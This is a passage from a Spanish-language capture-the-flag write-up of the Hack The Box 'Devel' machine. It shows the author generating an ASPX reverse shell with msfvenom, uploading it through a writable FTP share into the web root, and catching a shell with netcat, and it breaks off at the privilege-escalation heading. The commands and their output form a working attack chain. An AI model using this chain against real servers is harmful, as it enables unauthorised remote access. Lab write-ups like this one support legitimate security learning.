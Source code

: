 si revisamos el codigo fuente podemos ver que hay archivos que contienen en el ftp, por lo tanto podemos concluir que una relacion entre el ftp y servidor web

![Untitled](/assets/images/2022-02-09-writeup-maquina-htb-devel/Untitled%202.png)

## Reverse Shell - Bajo Privilegios

asi que para obtener una reverse shell podriamos subir nuestra shell en el ftp, asi que generamos nuestra shell con msfvenom

```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2692 bytes
```

subimos al ftp nuestra reverse shell que generamos
```bash
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2727 bytes sent in 0.00 secs (4.6943 MB/s)
```

dejamos el puerto 443 en escucha con netcat y accedemos al navegador desde http://10.10.10.5/shell.aspx y logramos obtener nuestra reverse shell
```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web
```

## Escalacion de Privilegios
